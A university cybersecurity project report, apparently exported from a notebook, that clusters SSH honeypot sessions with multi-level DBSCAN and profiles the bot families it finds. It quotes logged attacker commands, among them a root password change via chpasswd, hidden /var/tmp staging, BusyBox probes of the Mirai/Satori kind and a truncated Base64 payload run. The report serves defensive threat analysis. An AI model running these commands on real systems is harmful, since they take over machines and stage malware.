<div style="text-align: center;">
    <h1><strong>Alma Mater Studiorum - University of Bologna</strong></h1>
    

<div style="display:flex; justify-content:center; align-items:center; padding:5px;">
        <img src="../images_reports/image.png" style="height:300px; width:auto">
    </div>

<h2><strong>Cybersecurity</strong></h2>

<h3><strong>PROYECT</strong><br>
    <strong>Attacker Behavioral Profiling in SSH honeypots.</strong></h3>

<p><strong>STUDENTS</strong></p>
    <ul style="list-style-type:none; padding: 0;">
        <li><strong>Rubén Gil Martínez<strong></li>
        <li><strong>Guillermo López Pérez<strong></li>
        <li><strong>Jorge Mejías Donoso<strong></li>
    </ul>
</div>


## **3) Proposed Methodology: Iterative Hierarchical DBSCAN**

---

### **Rationale: Handling Variable Density in Behavioral Data**

Previous exploratory clustering revealed a fundamental property of the dataset:
**attacker behaviors exhibit highly heterogeneous density**.
SSH intrusion sessions range from:

- **extremely dense clusters** produced by automated bots sending nearly identical command sequences,
- to **sparse, irregular interaction patterns** typical of human operators or script kiddies.

Traditional clustering algorithms struggle with this heterogeneity:

- **K-Means** assumes spherical clusters and fails to capture irregular behavioral structures.
- A **single-pass DBSCAN** cannot simultaneously detect dense botnets and sparse human sessions using a fixed \(\epsilon\) and `min_samples`.
  It either merges behaviorally distinct groups or incorrectly labels meaningful activity as noise.

To solve this, we propose an **Iterative Hierarchical DBSCAN** approach that adapts its density sensitivity across multiple stages.

---

### **The Algorithm: A Multi-Stage “Peeling” Strategy**

The core idea is to progressively extract clusters from the most dense to the least dense behavioral regions.
At each stage, DBSCAN isolates a new “layer” of attacker behavior, while the remaining unexplained sessions (DBSCAN’s `-1` noise) become the input for the next iteration.

This allows us to:

- separate large automated botnets early,
- detect mid-density behaviors such as IoT bots and probing tools,
- and finally isolate low-density, high-variability behaviors typical of human attackers.

---

### **Level 1: High-Density Capture (Automated Bots)**

**Hyperparameters:**
- Small `eps`
- Large `min_samples`

**Purpose:**
Capture **hyper-dense** clusters formed by large-scale automated bots executing near-identical commands across thousands of sessions.

**Outcome:**
The dense clusters are extracted as meaningful behavioral groups,
while the remaining sessions, those not dense enough, are labeled as **noise (`-1`)**,
forming the input for Level 2.

---

### **Iterative Relaxation (The “Peeling” Effect)**

At each new iteration, we run DBSCAN on the noise of the previous level.

**Adjustments per iteration:**
- **Increase** `eps`: allows DBSCAN to connect more spread-out behavior.
- **Decrease** `min_samples`: enables recognition of smaller or less frequent attacker patterns.

**Rationale:**
As parameters relax, the algorithm becomes sensitive to:

- **script kiddies** with inconsistent execution patterns,
- **semi-automated tools** showing partial regularity,
- **skilled human operators** with highly variable and interactive behavior.

Each iteration effectively “peels away” another behavioral layer from the dataset.

---

### **Termination**

The iterative process stops when:

- no new meaningful clusters appear, or
- only true anomalies or residual noise remain.

---

### **Post-Clustering Behavioral Analysis**

Once all hierarchical clusters have been extracted, we analyze:

- command diversity,
- timing patterns,
- error rates,
- filesystem probing behavior,
- indicators of automation or human interaction.

These insights allow us to interpret each cluster in terms of likely attacker profiles (e.g., botnets, IoT malware, script kiddies, semi-human operators, skilled intruders), based on their observable behavioral patterns.

---

### **Why This Hierarchical Approach Matters**

This methodology prevents dense automated bot activity from **overshadowing**
the more subtle behaviors of human or semi-automated attackers.
Its adaptive density sensitivity makes it possible to:

- maintain strong cluster separation among automated behaviors,
- recover meaningful structure from sparse or noisy interactions,
- and characterize the full behavioral landscape of SSH attacks.

The result is a **flexible, density-aware framework** that aligns naturally with the diverse nature of real-world intrusion attempts.


## **4) Level 1 – High-Density Clustering with DBSCAN**

The first step of the hierarchical clustering pipeline consists of applying DBSCAN to
the full dataset in order to extract **high-density attacker behaviors**, typically generated
by large-scale automated botnets.

### **4.1 Loading and Preparing the Dataset**

We load the behavioral feature dataset (`attacker_behavioral_profiles_dataset_3.0.csv`)
along with the executed command sequences.
Missing values are dropped to ensure DBSCAN receives a clean numerical input.

From the full feature set, we select the subset of variables that best capture
behavioral structure at this density level, including:

- session duration
- inter-command timing statistics
- error ratio
- reconnaissance vs. exploitation ratios
- unique command ratio

These features have been shown to differentiate automated bots from human-like sessions.

### **4.2 Scaling**

Since DBSCAN is distance-based, we standardize the features using `StandardScaler`.
This ensures that variables measured on different scales contribute equally to the
distance computation.

### **4.3 DBSCAN Configuration (Level 1)**

For the first level of the hierarchy, we use:

- **small `eps`** → captures only the densest structures
- **large `min_samples`** → avoids small noisy clusters

This combination is intentionally strict, aiming to isolate **hyper-dense clusters** such as
fully automated botnets.

### **4.4 Interpreting Level 1 Output**

After clustering:

- Each data point receives a cluster label.
- DBSCAN assigns `-1` to sessions that are *not* part of any dense cluster. (Noise)
- These `-1` sessions will become the input for **Level 2** of the hierarchical process.

We also print the number of clusters found (excluding noise) and the distribution of
cluster memberships at Level 1.



In [22]:
import pandas as pd
import numpy as np
from sklearn.preprocessing import StandardScaler
from sklearn.cluster import KMeans

In [23]:
# ==========================
# 1) Load Dataset
# ==========================
final_dataset = pd.read_csv("../DATASETS/attacker_behavioral_profiles_dataset_3.0.csv", index_col="session_id")
df = final_dataset.copy()
session_ids = df.index

df.dropna(inplace=True)

In [24]:
# ==========================
# 1) Load Dataset for executed commands information
# ==========================
dataset_commands = pd.read_csv("../DATASETS/executed_commands.csv", index_col="session_id")

In [25]:
df = final_dataset.copy()
df.dropna(inplace=True)
df_reduced = df[['session_duration', 'command_error_rate', 'max_inter_command_time', 'mean_inter_command_time', 'std_inter_command_time', 'reconnaissance_ratio', 'exploit_ratio', 'unique_commands_ratio']]

In [26]:
from sklearn.cluster import DBSCAN

# ==========================
# 2) Scale the data
# ==========================
scaler = StandardScaler()
X_scaled = scaler.fit_transform(df_reduced)


dbscan = DBSCAN(eps=0.5, min_samples=350, metric='euclidean')
clusters = dbscan.fit_predict(X_scaled)

# ==========================
# 4) Add clusters to the clean DataFrame
# ==========================
df_reduced['cluster'] = clusters

# ==========================
# 5) Results
# ==========================
print("Number of clusters found (excluding noise):", len(set(clusters)) - (1 if -1 in clusters else 0), '\n')
print(df_reduced['cluster'].value_counts(), '\n')



Number of clusters found (excluding noise): 5 

cluster
 0    10322
 1     5126
-1     3452
 2      716
 4      386
 3      384
Name: count, dtype: int64 



C:\Users\ruben\AppData\Local\Temp\ipykernel_95896\4265981451.py:16: SettingWithCopyWarning:


A value is trying to be set on a copy of a slice from a DataFrame.
Try using .loc[row_indexer,col_indexer] = value instead

See the caveats in the documentation: https://pandas.pydata.org/pandas-docs/stable/user_guide/indexing.html#returning-a-view-versus-a-copy



## **4.5 PCA Visualization of Level 1 Clusters (3 Components)**


### **Explained Variance**
After computing the PCA transformation, we report:

- The percentage of variance explained by each principal component.
- The cumulative variance captured by the first 2 or 3 components.

This provides insight into how much of the original behavioral information is retained
in the reduced space.
A high cumulative variance (e.g., >60–70%) indicates that PCA preserves meaningful
structure and is suitable for visualization purposes.



In [27]:
import plotly.graph_objects as go
from sklearn.decomposition import PCA
from sklearn.preprocessing import MinMaxScaler
import numpy as np

# ==========================
# 1) PCA with 3 components
# ==========================
pca = PCA(n_components=3)
X_pca = pca.fit_transform(X_scaled)

# Variability explained by each component
var_exp = pca.explained_variance_ratio_

print("Percentage of variance explained by each component:")
for i, var in enumerate(var_exp):
    print(f"Component {i+1}: {var*100:.2f}%")

# Cumulative variability
var_acum = var_exp.cumsum()
print("\nCumulative variance percentage:")
for i, var in enumerate(var_acum):
    print(f"first {i+1} component(s): {var*100:.2f}%")

Percentage of variance explained by each component:
Component 1: 40.82%
Component 2: 25.11%
Component 3: 16.38%

Cumulative variance percentage:
first 1 component(s): 40.82%
first 2 component(s): 65.93%
first 3 component(s): 82.31%


## 4.6 PCA 3D Visualization of Level 1 Clusters

To visually inspect the separation of Level 1 DBSCAN clusters, we project the scaled
data into 3 PCA components.
Before plotting, the components are normalized with `MinMaxScaler` to improve visual
balance in the 3D space.

Each point represents a session, and the color corresponds to its DBSCAN cluster
(`-1` = noise). This plot helps verify whether dense bot clusters appear compact and
whether noise or sparse behaviors are more scattered.


In [28]:
# ==========================
# 1.1) SCALING PCA FOR VISUALIZATION ONLY
# ==========================
scaler_vis = MinMaxScaler()
X_pca_vis = scaler_vis.fit_transform(X_pca)

# ==========================
# 2) Prepare clusters
# ==========================
clusters = df_reduced['cluster'].values
unique_clusters = np.unique(clusters)

# ==========================
# 3) Create interactive figure
# ==========================
fig = go.Figure()
colors = ['red', 'blue', 'green', 'purple', 'brown',
          'pink', 'gray', 'cyan', 'magenta']

for i, cluster in enumerate(unique_clusters):
    cluster_mask = clusters == cluster
    label = f"Cluster {cluster}" if cluster != -1 else "Noise"

    fig.add_trace(go.Scatter3d(
        x=X_pca_vis[cluster_mask, 0],
        y=X_pca_vis[cluster_mask, 1],
        z=X_pca_vis[cluster_mask, 2],
        mode='markers',
        marker=dict(
            size=4,
            color=colors[i % len(colors)],
            opacity=0.85
        ),
        name=label
    ))

# ==========================
# 4) Layout
# ==========================
fig.update_layout(
    title="DBSCAN Clusters (PCA 3D Scaling for Visualization)",
    scene=dict(
        xaxis_title='PCA 1 (scaled)',
        yaxis_title='PCA 2 (scaled)',
        zaxis_title='PCA 3 (scaled)'
    ),
    width=800,
    height=600
)

# ==========================
# 5) Show figure
# ==========================
fig.show()

## 4.7 Animated 3D Visualization of Level 1 Clusters

To better inspect the spatial structure of Level 1 clusters, we generate an animated
3D PCA plot. Noise points are excluded to highlight only meaningful clusters.

In [29]:
fig = go.Figure()
colors = ['red', 'blue', 'green', 'purple', 'brown',
          'pink', 'gray', 'cyan', 'magenta']

for i, cluster in enumerate(unique_clusters):

    
    # ⛔ Jump noise
    if cluster == -1:
        continue
    
    cluster_mask = clusters == cluster
    label = f"Cluster {cluster}" if cluster != -1 else "Noise"

    fig.add_trace(go.Scatter3d(
        x=X_pca_vis[cluster_mask, 0],
        y=X_pca_vis[cluster_mask, 1],
        z=X_pca_vis[cluster_mask, 2],
        mode='markers',
        marker=dict(
            size=4,
            color=colors[i % len(colors)],
            opacity=0.85
        ),
        name=label
    ))

# ==========================
# 4) Layout
# ==========================
fig.update_layout(
    title="DBSCAN Clusters (PCA 3D Scaling for Visualization)",
    scene=dict(
        xaxis_title='PCA 1 (scaled)',
        yaxis_title='PCA 2 (scaled)',
        zaxis_title='PCA 3 (scaled)'
    ),
    width=800,
    height=600
)


def rotate_camera(angle):
    return dict(
        eye=dict(
            x=2*np.cos(angle),
            y=2*np.sin(angle),
            z=0.5
        )
    )

frames = []
angles = np.linspace(0, 2*np.pi, 120)  # 120 steps for 360°

for angle in angles:
    frames.append(
        go.Frame(layout=dict(scene_camera=rotate_camera(angle)))
    )

fig.frames = frames

fig.update_layout(
    updatemenus=[
        dict(
            type="buttons",
            showactive=False,
            buttons=[
                dict(
                    label="▶ Auto-Rotate",
                    method="animate",
                    args=[
                        None,
                        dict(frame=dict(duration=50, redraw=True),
                             fromcurrent=True,
                             transition=dict(duration=0))
                    ]
                )
            ],
            x=0.1,
            y=0.05
        )
    ]
)
# ==========================
# 5) Show figure
# ============
fig.show()

## 4.8 Behavioral Analysis of Cluster 0

To understand the intent behind Cluster 0, we inspect both the behavioral features and
the raw executed commands of a representative session.
The following actions reveal a **highly automated compromise attempt**, typical of
aggressive bot activity.

### **System inspection**
- `cat /proc/cpuinfo`
- `lscpu`

These commands check CPU architecture and virtualization artifacts, often used by bots
to detect sandboxes or low-value environments.

### **Privilege escalation attempt**
- `echo "root:gm8fN4LptkJH" | chpasswd`

Direct attempt to change the root password, indicating clear system takeover behavior.

### **Hidden temporary file activity**
- Creation of `/var/tmp/.varXXXXX`
- Subsequent deletions and modifications in `/var/tmp`

Bots commonly use `/var/tmp` because it is writable and rarely monitored.

### **Persistence exploration**
- `crontab -l`

Checks scheduled jobs to determine whether persistence can be installed.

### **System reconnaissance**
- `w`, `top`, `uname`, `uname -a`

Collects information about logged-in users, OS version, kernel, and architecture.

### **Suspicious file writes**
- `echo "root omega321" > /tmp/up.txt`

Likely a marker, test file, or part of a larger malware script.

### **Encoded payload execution**
- `sleep 15s && ... "IyEvYmluL..."` (Base64)

Indicates execution of an obfuscated or downloaded malware payload.

---

**Conclusion:**
Cluster 0 is consistent with **high-density, fully automated bot behavior** with a complete intrusion chain: reconnaissance → privilege escalation → system modification → payload deployment.


In [31]:
df.loc[df_reduced[df_reduced['cluster'] == 0].index].head(10)

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
00081b571122,78.0,23.0,31.249671,6.333993,1.160163,1.173813,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0
0076d693f7fd,78.0,23.0,32.132288,6.536506,1.194688,1.211933,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0
00aa3ae5d33a,78.0,23.0,36.995369,7.981335,1.388428,1.529704,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0
012f382592c2,78.0,23.0,6.000740,0.534131,0.201693,0.094307,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0
0148a3eded81,79.0,23.0,47.535764,9.728765,1.794312,1.813615,0.086957,0.217391,0.0,0.025316,0.075949,0.538462,19.0
024821112d32,78.0,23.0,10.350692,1.550276,0.370669,0.273999,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0
0263a6b216dd,77.0,23.0,42.055636,9.345013,1.579619,1.763732,0.086957,0.130435,0.0,0.025974,0.051948,0.538462,19.0
029fbd9f9f17,78.0,23.0,8.615960,0.738894,0.239450,0.128861,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0
02c1bec458bd,78.0,23.0,6.770280,0.720533,0.234483,0.139145,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0


In [32]:
dataset_commands.loc['0076d693f7fd']

,message
session_id,
0076d693f7fd,CMD: cat /proc/cpuinfo | grep name | wc -l
0076d693f7fd,"CMD: echo ""root:gm8fN4LptkJH""|chpasswd|bash"
0076d693f7fd,"CMD: echo ""321"" > /var/tmp/.var03522123"
0076d693f7fd,CMD: rm -rf /var/tmp/.var03522123
0076d693f7fd,CMD: cat /var/tmp/.var03522123 | head -n 1
0076d693f7fd,CMD: cat /proc/cpuinfo | grep name | head -n 1...
0076d693f7fd,"CMD: free -m | grep Mem | awk '{print $2 ,$3, ..."
0076d693f7fd,CMD: ls -lh $(which ls)
0076d693f7fd,CMD: which ls


## 4.9 Behavioral Analysis of Cluster 1

Cluster 1 shows almost the same behavior as Cluster 0, suggesting it is a variant of the
same botnet family.

Key observations:

- Performs the same system fingerprinting (CPU, environment checks).
- Uses `/var/tmp` for staging/persistence tests.
- Checks cron jobs (`crontab -l`).
- Runs reconnaissance before executing payloads.
- Instead of changing the root password, it sends credential-like strings, likely testing
  a vulnerable script or authentication mechanism.

**Conclusion:**
Cluster 1 is strongly aligned with the same automated bot family as Cluster 0, with only minor
variations in its intrusion flow.


In [33]:
df.loc[df_reduced[df_reduced['cluster'] == 1].index].head(10)

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
018dc4a4b877,41.0,19.0,12.066789,0.666725,0.448912,0.102372,0.0,0.0,0.0,0.04878,0.02439,0.558824,16.0
01da6910d207,41.0,19.0,25.455374,1.164677,1.026140,0.116896,0.0,0.0,0.0,0.04878,0.02439,0.558824,16.0
02125b4ced9a,41.0,19.0,29.965278,1.308146,1.180234,0.163214,0.0,0.0,0.0,0.04878,0.02439,0.558824,16.0
028532e63dc0,41.0,19.0,25.048949,1.149239,1.041340,0.079126,0.0,0.0,0.0,0.04878,0.02439,0.558824,16.0
02a7e70ddb65,41.0,19.0,14.076870,0.712860,0.536122,0.103506,0.0,0.0,0.0,0.04878,0.02439,0.558824,16.0
02f52673bd4e,41.0,19.0,25.803133,1.198966,1.064629,0.099341,0.0,0.0,0.0,0.04878,0.02439,0.558824,16.0
0309e1af2928,41.0,19.0,31.118224,1.673442,1.287276,0.232140,0.0,0.0,0.0,0.04878,0.02439,0.558824,16.0
03c1def60656,41.0,19.0,30.101288,1.328828,1.236262,0.116541,0.0,0.0,0.0,0.04878,0.02439,0.558824,16.0
03f829f7160d,41.0,19.0,33.845752,1.754121,1.293918,0.251508,0.0,0.0,0.0,0.04878,0.02439,0.558824,16.0


In [34]:
dataset_commands.loc['018dc4a4b877']

,message
session_id,
018dc4a4b877,CMD: cat /proc/cpuinfo | grep name | wc -l
018dc4a4b877,"CMD: echo -e ""362729\nm13AVpAn01IZ\nm13AVpAn01..."
018dc4a4b877,"CMD: echo ""362729\nm13AVpAn01IZ\nm13AVpAn01IZ\..."
018dc4a4b877,"CMD: echo ""321"" > /var/tmp/.var03522123"
018dc4a4b877,CMD: rm -rf /var/tmp/.var03522123
018dc4a4b877,CMD: cat /var/tmp/.var03522123 | head -n 1
018dc4a4b877,CMD: cat /proc/cpuinfo | grep name | head -n 1...
018dc4a4b877,"CMD: free -m | grep Mem | awk '{print $2 ,$3, ..."
018dc4a4b877,CMD: ls -lh $(which ls)


## 4.10 Behavioral Analysis of Cluster 2

Cluster 2 shows a short, direct interaction pattern typical of **IoT-focused botnets**.

Key observations:

- Attempts to open an interactive shell.
- Checks which commands are available.
- Verifies the presence of **BusyBox**.
- Identifies the underlying system architecture.

**Conclusion:**
This behavior is consistent with patterns commonly observed in**Satori/Mirai-type IoT malware**, which performs quick capability checks before launching exploitation.


In [35]:
df.loc[df_reduced[df_reduced['cluster'] == 2].index].head(10)

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
008c4e44013e,14.0,6.0,2.796228,0.337116,0.128707,0.170465,0.333333,0.0,0.0,0.0,0.071429,0.333333,5.0
01802b82117b,14.0,6.0,2.249304,0.275983,0.105233,0.136861,0.333333,0.0,0.0,0.0,0.071429,0.333333,5.0
01940692cfd9,14.0,6.0,2.833393,0.379712,0.134802,0.180516,0.333333,0.0,0.0,0.0,0.071429,0.333333,5.0
01a2594b0068,14.0,6.0,3.126926,0.300947,0.118441,0.153707,0.333333,0.0,0.0,0.0,0.071429,0.333333,5.0
02316f98b45d,14.0,6.0,2.238974,0.268809,0.102951,0.133754,0.333333,0.0,0.0,0.0,0.071429,0.333333,5.0
0243a52a14f1,14.0,6.0,2.898659,0.359967,0.139492,0.181489,0.333333,0.0,0.0,0.0,0.071429,0.333333,5.0
028781f59ed6,14.0,6.0,2.284489,0.280480,0.106642,0.139371,0.333333,0.0,0.0,0.0,0.071429,0.333333,5.0
04019b8309eb,14.0,6.0,2.463499,0.273369,0.110872,0.140699,0.333333,0.0,0.0,0.0,0.071429,0.333333,5.0
04545f468206,14.0,6.0,2.366082,0.279369,0.104235,0.137586,0.333333,0.0,0.0,0.0,0.071429,0.333333,5.0


In [36]:
dataset_commands.loc['008c4e44013e']

,message
session_id,
008c4e44013e,CMD: shell
008c4e44013e,CMD: sh
008c4e44013e,CMD: enable
008c4e44013e,CMD: system
008c4e44013e,CMD: /bin/busybox SATORI
008c4e44013e,CMD: /bin/busybox cat /bin/busybox


## 4.11 Behavioral Analysis of Cluster 3

Cluster 3 displays the **same IoT bot behavior** observed in Cluster 2, with only minor
variations in feature values.

Key observations:
- Same BusyBox checks and capability probing.
- Same short, direct interaction pattern typical of IoT malware.
- Same architecture fingerprinting.

**Conclusion:**
Cluster 3 is another variant of the **same Mirai/Satori-style IoT bot family**
captured in Cluster 2.


In [37]:
df.loc[df_reduced[df_reduced['cluster'] == 3].index].head(10)

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
000875e79f26,16.0,6.0,4.589384,0.142440,0.059873,0.064026,0.5,0.0,0.0,0.0,0.0625,0.375,6.0
0215812eaf08,16.0,6.0,2.421756,0.268390,0.101967,0.132542,0.5,0.0,0.0,0.0,0.0625,0.375,6.0
0329ccfd57d1,16.0,6.0,2.432236,0.295349,0.110743,0.139678,0.5,0.0,0.0,0.0,0.0625,0.375,6.0
06e9853fd458,16.0,6.0,3.360588,0.344455,0.132439,0.174258,0.5,0.0,0.0,0.0,0.0625,0.375,6.0
0768ddd532b9,16.0,6.0,5.737490,0.376167,0.143553,0.188790,0.5,0.0,0.0,0.0,0.0625,0.375,6.0
077041bb4e3c,16.0,6.0,1.558697,0.181438,0.064281,0.084217,0.5,0.0,0.0,0.0,0.0625,0.375,6.0
082ce35ab9d8,16.0,6.0,4.695774,0.362381,0.140117,0.185500,0.5,0.0,0.0,0.0,0.0625,0.375,6.0
088f527935ba,16.0,6.0,2.521171,0.296002,0.111167,0.145670,0.5,0.0,0.0,0.0,0.0625,0.375,6.0
0a904cbb7d5b,16.0,6.0,3.424090,0.388817,0.153366,0.196926,0.5,0.0,0.0,0.0,0.0625,0.375,6.0


In [38]:
dataset_commands.loc['000875e79f26']

,message
session_id,
000875e79f26,CMD: shell
000875e79f26,CMD: sh
000875e79f26,CMD: enable
000875e79f26,CMD: system
000875e79f26,CMD: /bin/busybox SATORI
000875e79f26,CMD: /bin/busybox cat /bin/busybox || while re...


## 4.12 Behavioral Analysis of Cluster 4

Cluster 4 exhibits a more advanced **filesystem-probing bot** behavior.

Key observations:

- Attempts to open a shell (`sh`, `system`, `ping ; sh`).
- Tests write permissions across many directories (`/tmp`, `/var`, `/dev`, `/etc`, `/usr`, `/boot`, `/sys`, `/`).
- Creates dummy files (`t`, `.t`, `retrieve`) to detect writable paths.
- Copies **BusyBox** into accessible locations to deploy its own toolset.
- Scans critical paths to determine where malware can be installed.

**Conclusion:**
Cluster 4 is consistent with a **malware staging bot** focused on filesystem probing and selecting persistence locations before deploying payloads.


In [39]:
df.loc[df_reduced[df_reduced['cluster'] == 4].index].head(10)

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
037bb72bdc5b,31.0,20.0,1.740881,0.021974,0.007870,0.004692,0.1,0.0,0.0,0.0,0.032258,0.05,20.0
04979d0de12b,31.0,20.0,1.354753,0.017672,0.006855,0.003109,0.1,0.0,0.0,0.0,0.032258,0.05,20.0
063c006e0c46,31.0,20.0,2.099040,0.017202,0.006710,0.003020,0.1,0.0,0.0,0.0,0.032258,0.05,20.0
0767a8c14a64,31.0,20.0,1.633410,0.019200,0.008429,0.003240,0.1,0.0,0.0,0.0,0.032258,0.05,20.0
07eca453ff00,31.0,20.0,1.245234,0.025540,0.007527,0.004627,0.1,0.0,0.0,0.0,0.032258,0.05,20.0
0b6088ac76b1,31.0,20.0,1.622174,0.025179,0.007144,0.004670,0.1,0.0,0.0,0.0,0.032258,0.05,20.0
0ca121cd3f2a,31.0,20.0,1.782693,0.018282,0.007225,0.003214,0.1,0.0,0.0,0.0,0.032258,0.05,20.0
0cdfda803e23,31.0,20.0,1.336805,0.023248,0.008883,0.005694,0.1,0.0,0.0,0.0,0.032258,0.05,20.0
0e3a62b79ac3,31.0,20.0,1.536817,0.027715,0.007373,0.005212,0.1,0.0,0.0,0.0,0.032258,0.05,20.0


In [40]:
dataset_commands.loc['037bb72bdc5b']

,message
session_id,
037bb72bdc5b,CMD: shell
037bb72bdc5b,CMD: sh
037bb72bdc5b,CMD: enable
037bb72bdc5b,CMD: system
037bb72bdc5b,CMD: ping ; sh
037bb72bdc5b,CMD: >/tmp/t && cd /tmp/ && >retrieve; >.t
037bb72bdc5b,CMD: >/var/t && cd /var/ && >retrieve; >.t
037bb72bdc5b,CMD: >/dev/t && cd /dev/ && >retrieve; >.t
037bb72bdc5b,CMD: >/mnt/t && cd /mnt/ && >retrieve; >.t


## 5) DBSCAN – Level 2 Clustering (Medium-Density Layer)

After removing the high-density bot clusters in Level 1, we apply DBSCAN again on the
remaining sessions (those labeled as `-1`).
This second level uses a **larger `eps`** and **smaller `min_samples`** to detect
medium-density behaviors such as IoT variants, probing bots, or semi-automated tools.

The steps are:
- isolate Level 1 noise (`df_reduced_noise`),
- rescale the features,
- run DBSCAN with relaxed parameters,
- assign new cluster labels inside the noise subset.

The resulting clusters represent attacker behaviors that were not dense enough for
Level 1 but still show meaningful structure.


In [41]:
df_reduced_noise = df_reduced[df_reduced['cluster'] == -1]

scaler = StandardScaler()
X_scaled = scaler.fit_transform(df_reduced_noise)


dbscan = DBSCAN(eps=1, min_samples=150, metric='euclidean')
clusters = dbscan.fit_predict(X_scaled)

# ==========================
# 4) Add clusters to the clean DataFrame
# ==========================
df_reduced_noise['cluster'] = clusters

# ==========================
# 5) Results
# ==========================
print("Number of clusters found (excluding noise):", len(set(clusters)) - (1 if -1 in clusters else 0), '\n')
print(df_reduced_noise['cluster'].value_counts(), '\n')

Number of clusters found (excluding noise): 3 

cluster
 0    2358
-1     471
 1     467
 2     156
Name: count, dtype: int64 



C:\Users\ruben\AppData\Local\Temp\ipykernel_95896\2463545837.py:13: SettingWithCopyWarning:


A value is trying to be set on a copy of a slice from a DataFrame.
Try using .loc[row_indexer,col_indexer] = value instead

See the caveats in the documentation: https://pandas.pydata.org/pandas-docs/stable/user_guide/indexing.html#returning-a-view-versus-a-copy



## 5.1 PCA 3D Visualization of Level 2 Clusters

To inspect the structure of the medium-density clusters obtained in Level 2, we project
the noise from Level 1 into a 3D PCA space and visualize only the non-noise clusters.

As in Level 1, the PCA components are rescaled with `MinMaxScaler` for better visual
balance, and we use an animated 3D Plotly scatter to rotate the camera around the
clusters. This helps assess how well-separated these new groups are and how they
occupy the remaining behavioral space once the densest bots have been removed.


In [42]:
X_pca = pca.fit_transform(X_scaled)

# ==========================
# 1.1) SCALING PCA FOR VISUALIZATION ONLY
# ==========================
scaler_vis = MinMaxScaler()
X_pca_vis = scaler_vis.fit_transform(X_pca)

# ==========================
# 2) Prepare clusters
# ==========================
clusters = df_reduced_noise['cluster'].values
unique_clusters = np.unique(clusters)

# ==========================
# 3) Create interactive figure
# ==========================
fig = go.Figure()
colors = ['red', 'blue', 'green', 'purple', 'brown',
          'pink', 'gray', 'cyan', 'magenta']

for i, cluster in enumerate(unique_clusters):
    if cluster == -1:
        continue
    cluster_mask = clusters == cluster
    label = f"Cluster {cluster}" if cluster != -1 else "Noise"

    fig.add_trace(go.Scatter3d(
        x=X_pca_vis[cluster_mask, 0],
        y=X_pca_vis[cluster_mask, 1],
        z=X_pca_vis[cluster_mask, 2],
        mode='markers',
        marker=dict(
            size=4,
            color=colors[i % len(colors)],
            opacity=0.85
        ),
        name=label
    ))

# ==========================
# 4) Layout
# ==========================
fig.update_layout(
    title="DBSCAN Clusters (PCA 3D Scaling for Visualization)",
    scene=dict(
        xaxis_title='PCA 1 (scaled)',
        yaxis_title='PCA 2 (scaled)',
        zaxis_title='PCA 3 (scaled)'
    ),
    width=800,
    height=600
)


def rotate_camera(angle):
    return dict(
        eye=dict(
            x=2*np.cos(angle),
            y=2*np.sin(angle),
            z=0.5
        )
    )

frames = []
angles = np.linspace(0, 2*np.pi, 120)  # 120 steps for 360°

for angle in angles:
    frames.append(
        go.Frame(layout=dict(scene_camera=rotate_camera(angle)))
    )

fig.frames = frames

fig.update_layout(
    updatemenus=[
        dict(
            type="buttons",
            showactive=False,
            buttons=[
                dict(
                    label="▶ Auto-Rotate",
                    method="animate",
                    args=[
                        None,
                        dict(frame=dict(duration=50, redraw=True),
                             fromcurrent=True,
                             transition=dict(duration=0))
                    ]
                )
            ],
            x=0.1,
            y=0.05
        )
    ]
)
# ==========================
# 5) Show figure
# ==========================
fig.show()


## 5.2 Behavioral Analysis of Level 2 – Cluster 0

Cluster 0 at Level 2 corresponds to low-quality or experimental bots that still show
clear malicious intent.

Key observations:

- Attempts to open a shell (`enable`, `development`, `shell`, `sh`, `linuxshell`).
- Executes BusyBox-related commands, including
  `/bin/busybox TSUNAMI` → linked to DDoS malware families.
- Reads the BusyBox binary (`/bin/busybox cat /bin/busybox`) to verify availability.

**Conclusion:**
This cluster is strongly aligned with **probing malware using BusyBox as its execution toolkit**, often
associated with early-stage or poorly developed IoT/DDoS bot variants. So it is very similar to cluster 2 and 3 from Level 1.


In [44]:
df.loc[df_reduced_noise[df_reduced_noise['cluster'] == 0].index].head(10) # Low quality or experimental bots

,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity
session_id,,,,,,,,,,,,,
010ad96c3f21,16.0,7.0,68.448152,19.502649,3.257964,7.958238,0.428571,0.000000,0.0,0.000000,0.062500,0.285714,6.0
01310728d909,21.0,9.0,17.792190,1.408968,1.240789,0.217969,0.000000,0.000000,0.0,0.095238,0.047619,0.500000,11.0
01efe494fcc0,16.0,7.0,68.608636,19.424206,3.242624,7.927324,0.428571,0.000000,0.0,0.000000,0.062500,0.285714,6.0
02c2ce40e41c,16.0,7.0,68.342209,19.261767,3.215242,7.861160,0.428571,0.000000,0.0,0.000000,0.062500,0.285714,6.0
035b50f2544d,16.0,7.0,68.438979,19.373217,3.233841,7.906647,0.428571,0.000000,0.0,0.000000,0.062500,0.285714,6.0
035dd32418e4,16.0,7.0,68.254606,19.170161,3.198320,7.824572,0.428571,0.000000,0.0,0.000000,0.062500,0.285714,6.0
